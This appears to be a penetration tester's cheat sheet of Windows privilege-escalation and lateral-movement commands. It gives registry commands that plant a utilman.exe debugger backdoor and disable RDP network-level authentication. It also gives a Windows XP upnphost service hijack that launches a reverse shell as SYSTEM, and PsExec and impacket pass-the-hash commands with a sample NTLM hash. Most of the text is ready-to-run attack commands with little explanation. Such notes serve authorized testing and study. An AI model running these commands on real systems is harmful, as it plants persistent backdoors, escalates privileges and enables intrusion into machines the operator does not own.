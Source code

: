 RDP login page "ease of access" system cmd

{% code overflow="wrap" %}
```
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\utilman.exe" /t REG_SZ /v Debugger /d "C:\windows\system32\cmd.exe" /f

reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-TCP" /v UserAuthentication /t REG_DWORD /d "0" /f
```
{% endcode %}

#### WindowsXP SP0/1 upnphost SSDPSRV&#x20;

Need: file transfer to victim, low rev shell

{% embed url="https://sohvaxus.github.io/content/winxp-sp1-privesc.html" %}

```
sc qc upnphost
sc qc SSDPSRV
sc query SSDPSRV

sc config SSDPSRV start= auto
sc config upnphost binpath= "C:\Inetpub\wwwroot\rev2.exe"
sc config upnphost obj= ".\LocalSystem" password= ""
net start SSDPSRV
net start upnphost

receive SYSTEM shell
listen & run C:\Inetpub\wwwroot\rev2.exe again to persist the short life shell
(need 2 listeners, make it to 2nd listener in 1st listener b4 it dies)
```

#### PSexec

{% code overflow="wrap" %}
```
PSexec.exe -s cmd.exe -accepteula (or rev.exe on local)
PSexec.exe \\DC01 (-s) cmd.exe -accepteula

-c C:\rev.exe copy the exe to remote and exec
(no -c = exec system path exe)
-d dun want for process to terminate (non-interactive, can use when rev.exe but not cmd)
-s run as system

impacket-psexec jose@192.168.168.88 -hashes :645dc5a8871d2a4269d4cbe23f6ae103   
or user:'pw'@ip

need 445 or use -port to specify; need admin user to access $Admin
```
{% endcode %}

{% hint style="info" %}
If need use PS, need a `rev.exe` and `powershell -ep bypass`in new shell
{% endhint %}

{% embed url="https://learn.microsoft.com/en-us/sysinternals/downloads/psexec" %}

###
